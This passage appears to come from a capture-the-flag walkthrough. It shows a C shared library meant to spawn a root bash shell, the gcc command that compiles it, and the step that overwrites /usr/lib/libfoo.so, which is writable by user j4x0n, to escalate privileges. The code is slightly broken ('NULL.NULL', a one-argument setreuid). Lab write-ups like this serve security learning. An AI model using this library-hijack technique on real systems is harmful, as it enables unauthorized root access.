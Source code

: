 **Program 2**

```C
#include<stdlib.h>
int foo(){
setreuid(0);
execve("/bin/bash",NULL.NULL);
}
```

\
Either of the programs can be utilized
\
**Compile the Program**
```shell-session
j4x0n@fortress:~$ gcc -fPIC -shared -o libfoo.so exp.c
```
\
Now **Copy** the into `/usr/lib` Since `j4x0n` is the Owner of the file `/usr/lib/libfoo.so`

sudo -u j4x0n cp libfoo.so /usr/lib/libfoo.so
```shell-session
j4x0n@fortress:~$ sudo -u j4x0n cp libfoo.so /usr/lib/libfoo.so
```
